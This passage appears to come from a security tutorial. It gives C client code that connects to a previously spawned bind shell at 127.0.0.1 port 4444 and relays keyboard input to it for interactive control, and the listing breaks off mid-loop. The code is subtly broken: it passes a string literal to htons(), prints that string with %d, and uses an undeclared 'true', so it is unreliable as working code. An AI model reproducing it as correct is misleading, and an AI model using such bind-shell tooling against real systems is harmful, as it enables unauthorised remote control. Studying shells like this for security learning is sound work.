 <br>

#### Client-side code.

Lets now create a client code which would connect with the program above in order to send or receive data through the socket to the spawned shell to get fully interactive control of the program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <string.h>
#include <errno.h>
#include <fcntl.h>
#include <sys/select.h>

int main() {
   
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons("4444");
    server_addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)); //Create a socket and connect

    printf("[+] Connected to bind shell at %s:%d\n", "127.0.0.1", "4444");

    fcntl(0, F_SETFL, O_NONBLOCK);// Enable non-blocking mode on stdin


    // 5. Main loop: read from socket and stdin, forward data
    while (true) {
        fd_set fds;
        FD_ZERO(&fds);
        FD_SET(sockfd, &fds); // Watch socket
        FD_SET(0, &fds); // Watch keyboard input

        // Use select() to wait for activity on either stdin or the socket
        if (select(sockfd + 1, &fds, NULL, NULL, NULL) < 0) {
            perror("[-] Select error");
            break;
        }

        // Read from the socket and print to the terminal
        if (FD_ISSET(sockfd, &fds)) {
            char buffer[1024];
            int bytes = read(sockfd, buffer, sizeof(buffer) - 1);
            if (bytes <= 0) {
                printf("[-] Connection closed\n");
                break;
            }
            buffer[bytes] = '\0';
            printf("%s", buffer);
            fflush(stdout);
        }

        // Read from stdin and send to the socket
        if (FD_ISSET(0, &fds)) {
            char input[1024];
            int bytes = read(0, input, sizeof(input) - 1);
```